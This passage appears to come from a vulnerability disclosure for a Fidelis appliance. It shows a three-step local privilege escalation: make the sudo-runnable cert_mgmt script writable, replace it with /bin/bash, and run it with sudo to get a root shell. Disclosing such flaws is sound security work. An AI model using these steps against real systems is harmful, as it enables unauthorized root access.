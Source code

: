 #### Exploit:
1. Change permissions to allow modification of the cert_mgmt file:
```bash
$ chmod u+w /FSS/setup/cert_mgmt
```
2. Change the file as needed to execute arbitrary code or, in this example, spawn a shell:
```bash
$ cp /bin/bash /FSS/setup/cert_mgmt
```
3. Launch the file using the sudo command and authenticate with the fidelis user password:
```bash
$ sudo /FSS/setup/cert_mgmt
```

Screenshot showcasing vulnerability discovery and exploitation:

![](images/cert_mgmt.png)
